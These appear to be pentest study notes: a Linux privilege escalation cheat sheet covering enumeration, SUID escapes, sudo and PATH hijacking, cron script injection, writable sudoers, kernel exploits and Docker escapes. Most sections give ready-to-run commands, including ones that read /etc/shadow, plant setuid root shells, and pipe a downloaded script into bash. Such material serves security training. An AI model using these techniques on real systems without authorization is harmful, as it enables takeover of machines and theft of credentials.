

# 🐧 Linux Privilege Escalation

> [!info] The Goal
> Escalate from a user with limited privileges to **root (uid 0)**. This is often the longest phase of exploitation.

---

## 🎯 Attack Map



---

## 🔍 Phase 1: Enumeration (Most Important)

> [!warning] 80/20 Rule
> 80% of machines can be rooted by **proper enumeration**. Don't skip this!

### Automated Enumeration Scripts

Always run these first:

```bash
# linPEAS (comprehensive + pretty output)
curl https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash

# LinEnum (older but reliable)
./LinEnum.sh

# linux-smart-enumeration (concise)
./lse.sh

# pspy (process monitoring)
./pspy64 -p -f -i 1000
```

### Manual Enumeration (Critical Details)

```bash
# WHO & WHERE
whoami                    # current user
id                       # user ID, groups
groups                   # group membership
hostname                 # machine name

# OS & KERNEL (kernel exploits)
uname -a                 # OS, kernel version
cat /etc/os-release      # Distribution
cat /proc/version        # Kernel details
lsb_release -a          # Ubuntu/Debian version

# SUDO RIGHTS (can sudo something?)
sudo -l                  # What can I run with sudo?
sudo -l -U OTHER_USER    # Can current user sudo as another user?

# FILE PERMISSIONS (writable files?)
find / -writable 2>/dev/null | head -20
find / -perm -002 2>/dev/null        # World-writable
find /home -perm -002 2>/dev/null    # User home world-writable

# SUID BINARIES (dangerous executables)
find / -perm -4000 2>/dev/null       # SUID binaries
find / -perm -2000 2>/dev/null       # SGID binaries

# RUNNING PROCESSES (privilege escalation chain)
ps aux                   # All processes with user
ps aux | grep root       # Root-owned processes
watch -n1 'ps aux'       # Monitor real-time changes

# SERVICES & DAEMONS
systemctl list-units --type service
netstat -tulpn           # Network connections
ss -tulpn                # Modern: socket statistics

# CRON JOBS & TIMERS (missed by many!)
crontab -l               # Current user cron
cat /etc/crontab         # System cron
cat /etc/cron.d/*        # Cron scripts
systemctl list-timers    # Systemd timers
```

---

## 🏆 Vector 1: SUID Binaries

**What:** Executable with setuid bit set (runs as owner, not executor)

### Finding SUID Binaries

```bash
# Find all SUID binaries
find / -perm -4000 2>/dev/null

# More efficient
find / -type f -perm -4000 2>/dev/null | head -20

# Get only those in common locations
find /usr/bin /usr/local/bin /opt -perm -4000 2>/dev/null
```

### Exploiting SUID Binaries

**Step 1:** Identify a SUID binary  
**Step 2:** Check [[#GTFOBins Database]] for known exploitation  
**Step 3:** If not found, test manually

### Common Vulnerable SUID Binaries

| Binary | Vulnerability | Exploit |
|--------|---|---|
| `find` | `-exec` privilege escalation | `find . -exec /bin/sh -p \;` |
| `vim` | Vim escape to shell | `:!sh`, `:set shell=/bin/bash` |
| `less` | `v` command to vim, then escape | `less FILE`, then `v`, then `:!sh` |
| `man` | Shell escape | `:!sh` |
| `nmap` | `--interactive` mode (older versions) | `nmap --interactive`, `nmap> !sh` |
| `nano` | `^T` (Ctrl+T) history, shell execution | `^R^X /bin/sh` |
| `cp` | Overwrite critical system files | `cp /tmp/evil /etc/shadow` |
| `chmod` | Make shell executable | `chmod u+s /tmp/shell.sh` |

### GTFOBins Database

```bash
# Online: https://gtfobins.github.io
# Or search for your binary

# Example: find gtfobins for 'find'
# Browser → gtfobins.github.io/find → select SUID tab
```

> [!tip] Pro Exploitation Tip
> Not all SUID binaries lead to root. Check if binary is owned by root (`ls -la /usr/bin/binary`). If owned by another user (e.g., www-data), you escalate to that user, not root.

---

## 🔐 Vector 2: Sudo Misconfigurations

**What:** User can run commands with `sudo` privilege without password, or run privileged commands.

### Check Sudo Rights

```bash
sudo -l                  # List sudo privileges
sudo -l -U otheruser    # Check another user's sudo
```

### Exploit: Sudo Without Password

```bash
# If you can run something as root without password:
sudo /bin/bash           # Direct shell
sudo -s                  # Root shell
sudo -i                  # Interactive root
```

### Exploit: Sudo With Wildcards

```bash
# If: sudo /usr/bin/script.sh *
# You can create files to control the wildcard

# Example: script.sh does: tar czvf /tmp/backup.tar.gz *
# Create: /tmp/-C /tmp   (tar -C /tmp flag)
# Create: /tmp/-T /tmp/files.txt
# Result: tar reads our file
```

### Exploit: Sudo With PATH Manipulation

```bash
# If: sudo script.sh
# And script.sh calls: find /home -name "*.txt"
# Without full path

# Create fake binary:
cat > /tmp/find << 'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/find

# Prepend /tmp to PATH:
export PATH=/tmp:$PATH

# Now: sudo script.sh
# → calls /tmp/find instead of /usr/bin/find
# → you get root shell
```

### Exploit: Sudo With Specific Privilege

```bash
# If: sudo cat /root/root.txt
# You can read root files

# If: sudo vim /etc/passwd
# Vim escape: :!sh
```

### Critical Misconfigurations

```bash
# sudoers entry allowing everything
user ALL=(ALL) NOPASSWD:ALL    # Worst case!

# sudoers allowing specific binary as root
user ALL=(ALL) NOPASSWD:/usr/bin/bash
user ALL=(ALL) NOPASSWD:/usr/local/bin/script.sh

# With environment variable control
user ALL=(ALL) NOPASSWD:/usr/bin/python script.py
# Can set PYTHONPATH to inject code
```

---

## ⏱️ Vector 3: Cron Jobs & Scheduled Tasks

**What:** Automated tasks running at intervals, possibly as root.

### Finding Cron Jobs

```bash
# User cron jobs (your crontab)
crontab -l

# System-wide cron
cat /etc/crontab
cat /etc/cron.d/*
cat /etc/cron.daily/*
cat /etc/cron.hourly/*
cat /etc/cron.monthly/*
cat /etc/cron.weekly/*

# Also check:
ls -la /var/spool/cron/crontabs/
ls -la /var/spool/cron/

# Systemd timers
systemctl list-timers --all
cat /etc/systemd/system/*.timer
```

### Exploit: Cron Running Script You Control

```bash
# Example: /etc/cron.d/myapp runs /tmp/backup.sh as root

# 1. Check if you can write /tmp/backup.sh
ls -la /tmp/backup.sh

# 2. If writable, add malicious code
echo "cp /bin/bash /tmp/rootshell; chmod u+s /tmp/rootshell" >> /tmp/backup.sh

# 3. Wait for cron to execute

# 4. Run suid shell
/tmp/rootshell -p
```

### Exploit: Path Traversal in Cron

```bash
# Example: /etc/crontab runs: /usr/local/bin/cleanup.sh
# And cleanup.sh calls: find /tmp -delete

# If find uses relative path, hijack it:
cat > /usr/local/bin/find << 'EOF'
#!/bin/bash
/bin/bash
EOF
chmod +x /usr/local/bin/find

# When cron runs cleanup.sh, it calls your fake find
```

### Exploit: Race Condition in Temp Files

```bash
# Cron writes temp file, then uses it
# Example: /root/backup.sh writes /tmp/backup.tar, then removes it

# You can:
# 1. Monitor with: watch -n0.1 'ls -la /tmp/backup.tar'
# 2. When created, replace with symlink: ln -s /etc/shadow /tmp/backup.tar
# 3. Wait for cron to read it or copy it
```

---

## 📁 Vector 4: Writable Files & Directories

**What:** Files with weak permissions that are critical to system operation.

### Find Writable Files

```bash
# Writable by current user
find / -writable 2>/dev/null | grep -E "(etc|root|bin|sbin|opt)" | head -20

# World-writable files (dangerous!)
find / -perm -002 2>/dev/null

# Owner-writable only (check if you own it)
find / -perm -u+w 2>/dev/null
```

### Exploit: Overwrite Script Run by Root

```bash
# Example: /root/backup.sh is world-writable and runs as root cron

# 1. Check ownership & perms
ls -la /root/backup.sh

# 2. Inject code
echo "cp /bin/bash /tmp/rootshell; chmod u+s /tmp/rootshell" >> /root/backup.sh

# 3. Wait for execution or trigger manually
sudo bash /root/backup.sh  # if you can sudo it

# 4. Execute
/tmp/rootshell -p
```

### Exploit: Overwrite Configuration Files

```bash
# If /etc/cron.allow is writable:
echo "user" >> /etc/cron.allow    # Add yourself
crontab -e                         # Create cron job
# ... get root shell

# If /etc/sudoers is writable:
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
sudo bash
```

---

## 🔥 Vector 5: Kernel Exploits

**What:** Vulnerabilities in OS kernel itself.

### Finding Kernel Exploits

```bash
# Get kernel version
uname -r

# Search on exploit-db/searchsploit
searchsploit linux kernel 5.4.0

# Famous Linux kernel exploits
# - CVE-2016-5195: Dirty COW
# - CVE-2021-4034: PwnKit (polkit)
# - CVE-2022-2586: Nftables vulnerability
# - CVE-2021-22555: Netfilter vulnerability
```

### How to Use Kernel Exploits

```bash
# 1. Download exploit (searchsploit -m)
searchsploit -m linux/kernel/cve-2016-5195.c

# 2. Compile on target
gcc -pthread dirty_cow.c -o exploit

# 3. Execute
./exploit
```

> [!danger] Kernel Exploit Risks
> - Can crash the system
> - May cause data loss
> - Use as LAST RESORT only
> - Test in VM first

---

## 🐳 Vector 6: Docker/Container Escape

**What:** Running inside a Docker container with escalation opportunity.

### Detect Running in Docker

```bash
# Check for docker indicators
cat /.dockerenv          # Present in Docker
cat /proc/1/cgroup      # Shows docker/cgroup info
hostname                # Usually container-like name

# Check Docker socket
ls -la /var/run/docker.sock

# Check for cgroups
grep docker /proc/self/cgroup
```

### Exploit: Docker Socket Access

```bash
# If /var/run/docker.sock is accessible:
docker ps                # Can you run Docker?
docker images

# If yes, you can:
docker run -it -v /:/host ubuntu bash
# Now you're in container with / mounted to /host
# Access /host/root/root.txt
```

### Exploit: Privileged Container

```bash
# If container has --privileged flag
# (check /proc/self/cgroup)

# You may be able to mount the host filesystem
mount /dev/sda1 /mnt    # Mount host disk
cd /mnt/root
cat root.txt
```

---

## 🔄 Vector 7: Process Monitoring & Privesc Chain

**What:** Monitor running processes to find vulnerability windows.

### Using pspy to Monitor Processes

```bash
# Download pspy
# https://github.com/DominicBreuker/pspy

./pspy64 -p -f -i 1000
# -p: print commands
# -f: print file operations
# -i: interval (1000ms)

# Watch for:
# - Root-owned processes
# - Processes with writable files
# - Network connections
```

### Example: Find Race Condition

```bash
# pspy shows: /root/backup.sh
# Which reads /tmp/target.txt then deletes it

# You can:
# 1. Create symlink: ln -s /etc/shadow /tmp/target.txt
# 2. Wait for process to read it
# 3. Access via copied contents
```

---

## 🛠️ Vector 8: Custom Applications & Source Code

**What:** Non-standard applications with potential vulnerabilities.

### Finding Custom Applications

```bash
# Look in non-standard locations
ls -la /opt/
ls -la /home/*/applications/
ls -la /srv/

# Check for setuid custom binaries
find /opt -perm -4000 2>/dev/null

# Look at running processes
ps aux | grep -v root | grep /opt
```

### Exploit: Buffer Overflow in Custom App

```bash
# If custom app crashes on input, may be vulnerable to BOF

# Test: strings | ltrace | strace
strings /opt/app        # Check for interesting strings
strace /opt/app         # Monitor system calls
ltrace /opt/app         # Monitor library calls

# If vulnerable:
# (See [[06-Buffer-Overflow/BOF-x86-Windows|Buffer Overflow Guide]])
```

---

## 📋 Complete Enumeration Checklist

Use this before giving up on privesc:

- [ ] Ran linPEAS (automated script)
- [ ] Checked `sudo -l` output carefully
- [ ] Ran `find / -perm -4000` for SUID
- [ ] Checked all cron jobs in /etc/cron.d
- [ ] Listed all running processes as root (`ps aux | grep root`)
- [ ] Checked kernel version against searchsploit
- [ ] Looked at /etc/passwd for unusual users
- [ ] Checked /opt, /srv, /home for custom apps
- [ ] Monitored processes with pspy for 2+ minutes
- [ ] Checked for world-writable files
- [ ] Looked for credentials in files/environment
- [ ] Checked for NFS exports with no_root_squash
- [ ] Enumerated all network services
- [ ] Checked cron job files for relative paths
- [ ] Reviewed application logs for errors/hints

---

## 🎓 Real-World Example

```bash
# Machine: LemonFile (OSCP-like)

# 1. Initial shell as 'www-data' user

# 2. Enumeration
sudo -l
# Output: www-data ALL=(root) NOPASSWD:/usr/bin/find

# 3. Exploit GTFOBins for find with sudo
sudo find . -exec /bin/sh -p \;

# 4. Result: root shell!
```

---

## ⚡ Quick Reference

| Vector | Command | Risk |
|--------|---------|------|
| SUID | `find / -perm -4000` | Low |
| Sudo | `sudo -l` | Low |
| Cron | `crontab -l; cat /etc/cron.d/*` | Low |
| Writable | `find / -writable` | Medium |
| Kernel | `searchsploit` | High |
| Process | `pspy64` | Medium |

---

## 💡 Pro Tips

> [!tip] The "Aha" Moment
> Most OSCP machines don't require kernel exploits. If you're stuck, re-enumerate before kernel POC.

> [!tip] Always Stabilize Shell First
> Get a proper interactive shell before attempting privesc.

> [!tip] Document Everything
> Screenshot each step for the report, even failures.

---

**Related Notes:**
- [[01-Methodology/Pentest-Methodology|🗺️ Pentest Methodology]]
- [[02-Linux/Shells-and-Payloads|💀 Shells & Payloads]]
- [[05-Tools/Nmap-Cheatsheet|🎯 Nmap Cheatsheet]]

---
